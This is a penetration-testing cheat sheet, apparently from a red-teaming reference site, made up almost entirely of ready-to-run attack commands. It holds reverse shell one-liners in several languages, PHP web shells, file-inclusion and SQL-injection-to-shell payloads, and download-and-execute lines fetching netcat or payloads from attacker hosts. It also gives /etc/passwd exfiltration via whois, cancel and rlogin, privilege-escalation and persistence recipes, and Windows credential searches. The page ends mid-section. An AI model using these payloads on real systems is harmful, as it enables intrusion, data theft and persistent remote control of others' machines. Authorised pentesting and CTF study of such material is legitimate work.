

Pentesting Cheatsheets - Red Teaming Experiments

# Pentesting Cheatsheets

Convenient commands for your pentesting / red-teaming engagements, OSCP and CTFs.

#

Reconnaissance / Enumeration

##

Extracting Live IPs from Nmap Scan

Copy

nmap 10.1.1.1 --open -oG scan-results;  cat scan-results |  grep  "/open"  |  cut -d " " -f 2 > exposed-services-ips

##

Simple Port Knocking

Copy

for x in 7000 8000 9000;  do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1;  done

##

DNS lookups, Zone Transfers & Brute-Force

Copy

3whois domain.com
4dig  {a|txt|ns|mx} domain.com
5dig  {a|txt|ns|mx} domain.com @ns1.domain.com
6host -t {a|txt|ns|mx} megacorpone.com
7host -a megacorpone.com
8host -l megacorpone.com ns1.megacorpone.com
9dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
10dnsenum domain.com
11nslookup ->  set type=any ->  ls -d domain.com

12for sub in  $(cat subdomains.txt);do host $sub.domain.com|grep  "has.address";done

##

Banner Grabbing

Copy

13nc -v $TARGET 80
14telnet $TARGET 80
15curl -vX $TARGET

##

NFS Exported Shares

List NFS exported shares. If 'rw,no_root_squash' is present, upload and execute [sid-shell](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c)​

Copy

16showmount -e 192.168.110.102
17chown root:root sid-shell;  chmod +s sid-shell

##

Kerberos Enumeration

Copy

18# users

19nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

##

HTTP Brute-Force & Vulnerability Scanning

Copy

20target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l |  tee  $target-gobuster

21target=10.0.0.1; nikto -h http://$target:80 |  tee  $target-nikto

22target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p |  tee  $target-wpscan-enum

##

RPC / NetBios / SMB

Copy

23rpcinfo -p $TARGET
24nbtscan $TARGET
25​
26#list shares
27smbclient -L //$TARGET -U ""
28​
29# null session
30rpcclient -U ""  $TARGET
31smbclient -L //$TARGET
32enum4linux $TARGET

##

SNMP

Copy

33# Windows User Accounts
34snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25
35​
36# Windows Running Programs
37snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2
38​
39# Windows Hostname
40snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5
41​
42# Windows Share Information
43snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1
44​
45# Windows Share Information
46snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27
47​
48# Windows TCP Ports
49snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3
50​
51# Software Name
52snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2
53​
54# brute-force community strings
55onesixtyone -i snmp-ips.txt -c community.txt
56​
57snmp-check $TARGET

##

SMTP

Copy

smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150

##

Active Directory

Copy

59# current domain info
60[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
61​
62# domain trusts

63([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

64​
65# current forest info
66[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
67​
68# get forest trust relationships

69([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()

70​
71# get DCs of a domain
72nltest /dclist:offense.local
73net group "domain controllers" /domain
74​
75# get DC for currently authenticated session
76nltest /dsgetdc:offense.local
77​
78# get domain trusts from cmd shell
79nltest /domain_trusts
80​
81# get user info
82nltest /user:"spotless"
83​
84# get DC for currently authenticated session
85set l
86​
87# get domain name and DC the user authenticated to
88klist
89​
90# get all logon sessions. Includes NTLM authenticated sessions
91klist sessions
92​
93# kerberos tickets for the session
94klist
95​
96# cached krbtgt
97klist tgt
98​
99# whoami on older Windows systems
100set u
101​
102# find DFS shares with ADModule

103Get-ADObject -filter * -SearchBase "CN=Dfs-Configuration,CN=System,DC=offense,DC=local" | select name

104​
105# find DFS shares with ADSI

106$s=[adsisearcher]'(name=*)'; $s.SearchRoot = [adsi]"LDAP://CN=Dfs-Configuration,CN=System,DC=offense,DC=local"; $s.FindAll() | % {$_.properties.name}

107​
108# check if spooler service is running on a host
109powershell ls "\\dc01\pipe\spoolss"

##

Listen on a port (Powershell)

Copy

110# Start listener on port 443
111$listener =  [System.Net.Sockets.TcpListener]443; $listener.Start();
112
113while($true)
114{
115 $client = $listener.AcceptTcpClient();
116 Write-Host $client.client.RemoteEndPoint "connected!";
117 $client.Close();
118 start-sleep -seconds 1;
119}

#

Gaining Access

##

Reverse Shell One-Liners

###

Bash

Copy

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

###

Perl

Copy

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

###

URL-Encoded Perl: Linux

Copy

echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew

###

Python

Copy

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

###

PHP

Copy

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

###

Ruby

Copy

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

###

Netcat without -e #1

Copy

rm /tmp/f;  mkfifo /tmp/f;  cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f

###

Netcat without -e #2

Copy

127nc localhost 443 | /bin/sh | nc localhost 444
128telnet localhost 443 | /bin/sh | telnet localhost 444

###

Java

Copy

r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();

###

XTerm

Copy

xterm -display 10.0.0.1:1

##

JDWP RCE

Copy

print new  java.lang.String(new  java.io.BufferedReader(new  java.io.InputStreamReader(new  java.lang.Runtime().exec("whoami").getInputStream())).readLine())

##

Working with Restricted Shells

Copy

132# rare cases
133ssh bill@localhost ls -l /tmp

Copy

nice /bin/bash

##

Interactive TTY Shells

Copy

/usr/bin/expect sh

Copy

136python -c ‘import pty; pty.spawn(“/bin/sh”)’

137# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk

138python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'

##

Uploading/POSTing Files Through WWW Upload Forms

Copy

139# POST file

140curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

141​
142# POST binary data to web form

143curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v

##

PUTing File on the Webhost via PUT verb

Copy

curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php

##

Generating Payload Pattern & Calculating Offset

Copy

145/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000

146/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE

##

Bypassing File Upload Restrictions

- file.php -> file.jpg
- file.php -> file.php.jpg
- file.asp -> file.asp;.jpg
- file.gif (contains php code, but starts with string GIF/GIF98)
- 00%
- file.jpg with php backdoor in exif (see below)
- .jpg -> proxy intercept -> rename to .php

##

Injecting PHP into JPEG

Copy

147exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
148exiftool “-comment<=back.php” back.png

##

Uploading .htaccess to interpret .blah as .php

Copy

AddType application/x-httpd-php .blah

##

Cracking Passwords

###

Cracking Web Forms with Hydra

Copy

hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list

###

Cracking Common Protocols with Hydra

Copy

hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1

###

HashCat Cracking

Copy

152# Bruteforce based on the pattern;
153hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout
154​
155# Generate password candidates: wordlist + pattern;

156hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout

157​
158# Generate NetNLTMv2 with internalMonologue and crack with hashcat

159InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800

160# resulting hash

161spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

162​
163# crack with hashcat

164hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable

##

Generating Payload with msfvenom

Copy

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai

##

Compiling Code From Linux

Copy

166# Windows
167i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe
168​
169# Linux
170gcc -m32|-m64 -o output source.c

##

Compiling Assembly from Windows

Copy

171# https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
172nasm -f win64 .\hello.asm -o .\hello.obj
173​
174# http://www.godevtool.com/Golink.zip
175GoLink.exe -o .\hello.exe .\hello.obj

##

Local File Inclusion to Shell

Copy

176nc 192.168.1.102 80
177GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
178Host: 192.168.1.102
179Connection: close
180​

181# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id

##

Local File Inclusion: Reading Files

Copy

182file:///etc/passwd
183​
184http://example.com/index.php?page=php://input&cmd=ls
185 POST: <?php system($_GET['cmd']); ?>

186http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input

187 POST: <?php system('uname -a');die(); ?>
188​
189expect://whoami

190http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php

191http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php

192http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd

193http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id

194http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

195​
196# ZIP Wrapper
197echo  "<pre><?php system($_GET['cmd']); ?></pre>"  > payload.php;
198zip payload.zip payload.php;
199mv payload.zip shell.jpg;
200http://example.com/index.php?page=zip://shell.jpg%23payload.php
201​
202# Loop through file descriptors
203curl  '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -

##

Remote File Inclusion Shell: Windows + PHP

Copy

<?php  system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }");  ?>

##

SQL Injection to Shell or Backdoor

Copy

205# Assumed 3 columns

206http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj

Copy

207# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.

208sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10

Copy

209# netcat reverse shell via mssql injection when xp_cmdshell is available

2101000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--

##

SQLite Injection to Shell or Backdoor

Copy

211ATTACH DATABASE  '/home/www/public_html/uploads/phpinfo.php'  as pwn;
212CREATE  TABLE pwn.shell (code TEXT);

213INSERT  INTO pwn.shell (code)  VALUES  ('<?php system($_REQUEST['cmd']);?>');

##

MS-SQL Console

Copy

214mssqlclient.py -port 27900 user:password@10.1.1.1
215sqsh -S 10.1.1.1 -U user -P password

##

Upgradig Non-Interactive Shell

Copy

216python -c 'import pty; pty.spawn("/bin/sh")'
217/bin/busybox sh

##

Python Input Code Injection

Copy

__import__('os').system('id')

#

Local Enumeration & Privilege Escalation

https://github.com/sagishahar/lpeworkshop

##

Check AppLocker Policies

Copy

219Get-AppLockerPolicy -Local).RuleCollections
220Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
221reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\

##

Applocker: Writable Windows Directories

Copy

222# list from https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

223C:\Windows\Tasks
224C:\Windows\Temp
225C:\windows\tracing
226C:\Windows\Registration\CRMLog
227C:\Windows\System32\FxsTmp
228C:\Windows\System32\com\dmp
229C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
230C:\Windows\System32\spool\PRINTERS
231C:\Windows\System32\spool\SERVERS
232C:\Windows\System32\spool\drivers\color
233C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

234C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

235C:\Windows\SysWOW64\FxsTmp
236C:\Windows\SysWOW64\com\dmp
237C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
238C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System

##

Find Writable Files/Folders in Windows

Copy

239$a = Get-ChildItem "c:\windows\" -recurse -ErrorAction SilentlyContinue
240$a |  %  {
241 $fileName = $_.fullname

242 $acls =  get-acl $fileName -ErrorAction SilentlyContinue |  select  -exp access |  ?  {$_.filesystemrights -match "full|modify|write"  -and $_.identityreference -match "authenticated users|everyone|$env:username"}

243  if($acls -ne $null)
244  {
245  [pscustomobject]@{
246 filename = $fileName
247 user = $acls |  select  -exp identityreference
248  }
249  }
250}

##

Check if Powershell Logging is Enabled

Copy

251reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging

252reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription

##

Check WinEvent Logs for SecureString Exposure

Copy

Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104}  | Select-Object -Property Message | Select-String -Pattern 'SecureString'

##

Check WinEvent for Machine Wake/Sleep times

Copy

Get-WinEvent -FilterHashTable @{ ProviderName =  'Microsoft-Windows-Power-TroubleShooter'  ; Id =  1  }|Select-Object -Property @{n='Sleep';e={$_.Properties[0].Value}},@{n='Wake';e={$_.Properties[1].Value}}

##

Audit Policies

Copy

auditpol /get /category:*

##

Check if LSASS is running in PPL

Copy

reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL

##

Binary Exploitation with ImmunityDebugger

###

Get Loaded Modules

Copy

257# We're interested in modules without protection, Read & Execute permissions
258!mona modules

###

Finding JMP ESP Address

Copy

!mona find -s "\xFF\xE4" -m moduleName

##

Cracking a ZIP Password

Copy

fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip

##

Setting up Simple HTTP server

Copy

261# Linux
262python -m SimpleHTTPServer 80
263python3 -m http.server

264ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"

265php -S 0.0.0.0:80

##

MySQL User Defined Fuction Privilge Escalation

Requires raptor_udf2.c and sid-shell.c or full raptor.tar:

[ sid-shell.c  sid-shell.c - 151B](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LxBLJMuHp2z86_M52uB%2F-LxBMOA8UpvEQqTwR_Cb%2Fsid-shell.c?alt=media&token=4886dd0e-a799-4aee-87d3-7d08ebd0aac7)

[ raptor_udf2.c  raptor_udf2.c - 3KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LxBLJMuHp2z86_M52uB%2F-LxBMTunziUI1uUYLgkQ%2Fraptor_udf2.c?alt=media&token=0a773fb7-c71c-45f3-b335-ed988a6d3996)

[ raptor.tar  raptor.tar - 30KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LxBLJMuHp2z86_M52uB%2F-LxBMWhbCipw0IiI1Acp%2Fraptor.tar?alt=media&token=6a58e4eb-c8e8-4494-8bc0-ca23de632294)

Copy

gcc  -g  -shared  -Wl,-soname,raptor_udf2.so  -o  raptor_udf2.so  raptor_udf2.o  -lc

Copy

267use  mysql;
268create  table  npn(line  blob);
269insert  into  npn  values(load_file('/tmp/raptor_udf2.so'));
270select  *  from  npn  into  dumpfile  '/usr/lib/raptor_udf2.so';
271create  function  do_system  returns  integer  soname  'raptor_udf2.so';

272select  do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');

##

Docker Privilege Esclation

Copy

echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff"  > Dockerfile && docker build -t my-docker-image .  && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'  && ./sh -c id  && ./sh

##

Resetting root Password

Copy

echo  "root:spotless"  | chpasswd

##

Uploading Files to Target Machine

###

TFTP

Copy

275#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp

276service atftpd start
277​
278# Windows
279tftp -i $ATTACKER get /download/location/file /save/location/file

###

FTP

Copy

280# Linux: set up ftp server with anonymous logon access;
281twistd -n ftp -p 21 -r /file/to/serve
282​
283# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
284echo  open  $ATTACKER>ftp-commands.txt
285echo anonymous>>ftp-commands.txt
286echo whatever>>ftp-commands.txt
287echo binary>>ftp-commands.txt
288echo get file.exe>>ftp-commands.txt
289echo bye>>ftp-commands.txt
290ftp -s:ftp-commands.txt
291​
292# Or just a one-liner

293(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye)  > ftp.txt &  ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd

###

CertUtil

Copy

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe

###

PHP

Copy

<?php  file_put_contents("/var/tmp/shell.php",  file_get_contents("http://10.11.0.245/shell.php"));  ?>

###

Python

Copy

python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"

###

HTTP: Powershell

Copy

297powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe"  }

298powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"  }

299powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"

300powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

301​
302# download using default proxy credentials and launch

303powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials =  [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe")  | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }

###

HTTP: VBScript

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

Copy

cscript wget.vbs http://$ATTACKER/file.exe localfile.exe

###

HTTP: Linux

Copy

305wget http://$ATTACKER/file
306curl http://$ATTACKER/file -O
307scp ~/file/file.bin user@$TARGET:tmp/backdoor.py

###

NetCat

Copy

308# Attacker
309nc -l -p 4444 < /tool/file.exe
310​
311# Victim
312nc $ATTACKER 4444 > file.exe

###

HTTP: Windows "debug.exe" Method

Copy

313# 1. In Linux, convert binary to hex ascii:

314wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt

315# 2. Paste nc.txt into Windows Shell.

###

HTTP: Windows BitsAdmin

Copy

cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe

###

Wscript Script Code Download & Execution

cmd

code.js

Copy

echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js

##

Whois Data Exfiltration

Copy

318# attacker
319nc -l -v -p 43 |  sed  "s/ //g"  | base64 -d
320# victim
321whois -h $attackerIP -p 43 `cat /etc/passwd | base64`

##

Cancel Data Exfiltration

Copy

cancel -u "$(cat /etc/passwd)" -h ip:port

##

rlogin Data Exfiltration

Copy

rlogin -l "$(cat /etc/passwd)" -p port host

##

Bash Ping Sweeper

Copy

324#!/bin/bash
325for lastOctet in  {1..254};  do

326  ping -c 1 10.0.0.$lastOctet  |  grep  "bytes from"  |  cut -d " " -f 4 |  cut -d ":" -f 1 &

327done

##

Brute-forcing XOR'ed string with 1 byte key in Python

Copy

328encrypted =  "encrypted-string-here"
329for i in  range(0,255):
330  print("".join([chr(ord(e)  ^ i)  for e in encrypted]))

##

Generating Bad Character Strings

Copy

331# Python
332'\\'.join([  "x{:02x}".format(i)  for i in  range(1,256)  ])

Copy

333# Bash
334for i in  {1..255};  do  printf  "\\\x%02x"  $i;  done;  echo -e ""

##

Converting Python to Windows Executable (.py -> .exe)

Copy

python pyinstaller.py --onefile convert-to-exe.py

##

Port Scanning with NetCat

Copy

336nc -nvv -w 1  -z host 1000-2000
337nc -nv -u -z -w 1 host 160-162

##

Port Scanning with Masscan

Copy

masscan  -p1-65535,U:1-65535  10.10.10.x  --rate=1000  -e  tun0

##

Exploiting Vulnerable Windows Services: Weak Service Permissions

Copy

339# Look for SERVICE_ALL_ACCESS in the output
340accesschk.exe /accepteula -uwcqv "Authenticated Users"  *
341​

342sc config [service_name] binpath=  "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj=  "LocalSystem" password=  ""

343sc qc [service_name]  (to verify!)
344sc start [service_name]

##

Find File/Folder Permissions Explicitly Set for a Given User

Copy

345icacls.exe C:\folder /findsid userName-or-*sid /t
346//look for (F)ull, (M)odify, (W)rite

##

AlwaysInstallElevated MSI

Copy

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

##

Stored Credentials: Windows

Copy

348c:\unattend.xml
349c:\sysprep.inf
350c:\sysprep\sysprep.xml
351dir c:\*vnc.ini /s /b
352dir c:\*ultravnc.ini /s /b
353dir c:\ /s /b | findstr /si *vnc.ini
354​
355findstr /si password *.txt |  *.xml |  *.ini
356findstr /si pass *.txt |  *.xml |  *.ini
357dir /s *cred*  ==  *pass*  ==  *.conf
358​
359# Windows Autologon
360reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
361​
362# VNC
363reg query "HKCU\Software\ORL\WinVNC3\Password"
364​
365# Putty
366reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
367​
368# Registry
369reg query HKLM /f password /t REG_SZ /s
370reg query HKCU /f password /t REG_SZ /s

##

Unquoted Service Path

Copy

371wmic service get name,displayname,pathname,startmode |findstr /i "auto"  |findstr /i /v "c:\windows\\"  |findstr /i /v """

372wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"  |findstr /i /v """

##

Persistence via Services

Copy

373# cmd

374sc create spotlessSrv binpath=  "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj=  "LocalSystem" password=  ""

375​
376# powersehll

377New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'"  -Description "Not at all"

##

Port Forwarding / SSH Tunneling

###

SSH: Local Port Forwarding

Copy

378# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER

379# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
380ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

###

SSH: Dynamic Port Forwarding

Copy

381# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER

382# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;

383ssh -D 127.0.0.1:8080 user@SSH_SERVER

###

SSH: Remote Port Forwarding

Copy

384# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389

385# Scenario: expose RDP on non-routable network;
386ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
387plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP

###

Proxy Tunnel

Copy

388# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128

389# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;

390proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
391ssh user@127.0.0.1 -p 5555

###

HTTP Tunnel: SSH Over HTTP

Copy

392# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22

393hts -F localhost:22 80
394​

395# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80

396htc -F 8080 192.168.1.15:80
397​

398# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22

399ssh localhost -p 8080

###

Netsh - Windows Port Forwarding

Copy

400# requires admin

401netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport

##

RunAs / Start Process As

###

PowerShell

Copy

402# Requires PSRemoting

403$username  =  'Administrator';$password  =  '1234test';$securePassword  = ConvertTo-SecureString $password -AsPlainText -Force;$credential  = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command {  whoami  }

404​
405# without PSRemoting

406cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

407​
408# without PS Remoting, with arguments

